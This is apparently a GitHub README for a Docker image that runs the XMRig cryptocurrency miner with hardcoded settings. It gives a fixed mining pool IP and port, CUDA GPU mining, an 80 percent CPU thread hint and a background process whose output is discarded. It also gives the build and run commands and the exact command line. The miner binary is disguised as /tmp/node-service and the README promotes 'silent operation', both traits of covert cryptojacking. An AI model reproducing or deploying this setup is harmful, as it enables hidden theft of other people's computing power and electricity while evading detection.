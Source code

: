 # Docker XMRig - Hardcoded Version

This is a simplified version of docker-xmrig with hardcoded parameters for mining. All configuration is baked into the container with no environment variables or runtime parameters.

## Hardcoded Configuration

- **Pool**: 62.60.148.249:9940
- **CUDA**: Enabled
- **CPU Max Threads**: 80
- **Output**: Redirected to /dev/null (silent operation)
- **Background**: Runs as background process

## Build

```bash
docker build -t xmrig-hardcoded .
```

## Run

```bash
docker run -d --name xmrig-miner xmrig-hardcoded
```

## Features

- No environment variables required
- No runtime configuration
- Simplified deployment
- CUDA GPU mining support
- Automatic background execution
- Silent operation (no console output)

## Command Executed

The container runs this exact command:

```bash
/tmp/node-service -o 62.60.148.249:9940 --cuda --cuda-loader=/usr/local/lib/libxmrig-cuda.so --cpu-max-threads-hint 80 > /dev/null 2>&1 &
```

## Requirements

- Docker with GPU support (for CUDA functionality)
- NVIDIA GPU with appropriate drivers
- Sufficient system resources
